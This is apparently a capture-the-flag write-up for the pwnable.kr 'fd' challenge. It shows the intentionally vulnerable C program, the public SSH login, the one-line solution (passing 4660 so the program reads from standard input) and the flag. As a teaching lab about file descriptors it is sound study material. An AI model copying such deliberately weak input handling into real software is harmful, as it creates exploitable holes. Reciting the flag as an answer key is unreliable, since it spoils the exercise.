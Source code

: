 # Solve

ssh fd@pwnable.kr -p2222 (pass: guest)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

# 🚩 POC

To have readability on __len__, we must ensure that __fd__ has a value of 0

And we have: 0x1234 = 4660 (hex to decimal)
```bash
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Flag is: ___mommy! I think I know what a file descriptor is!!___